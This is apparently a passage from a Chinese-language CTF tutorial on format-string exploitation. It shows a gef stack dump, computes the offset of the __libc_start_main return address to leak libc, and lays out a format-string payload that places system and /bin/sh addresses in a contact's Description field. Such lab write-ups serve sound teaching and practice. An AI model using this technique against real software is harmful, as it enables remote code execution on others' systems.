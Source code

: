 ```shell
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
0xffffcd24│+0x28: 0x00002b67 ("g+"?)
0xffffcd28│+0x2c: 0x0804c410  →  "11111"
0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd3c│+0x40: 0x00000000
0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
0xffffcd44│+0x48: 0x00000000
0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
0xffffcd58│+0x5c: 0x00000050 ("P"?)
0xffffcd5c│+0x60: 0x00000000
0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
0xffffcd64│+0x68: 0x08048288  →  0x00000082
0xffffcd68│+0x6c: 0x00000004
0xffffcd6c│+0x70: 0x0000000a
0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
0xffffcd78│+0x7c: 0x00000000
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
0xffffcd80│+0x84: 0x00000001
0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
```

我们可以通过简单的判断可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的是__libc_start_main的返回地址，同时利用 fmtarg 来获取对应的偏移，可以看出其偏移为 32，那么相对于格式化字符串的偏移为 31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据 libc-database 来获取对应的 libc，继而获取 system 函数地址与 /bin/sh 函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址 0xffffcd2c 相对于格式化字符串的偏移为 11，得到这个是为了寻址堆中指定联系人的Description的内存首地址，我们将格式化字符串[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]保存在指定联系人的Description中。
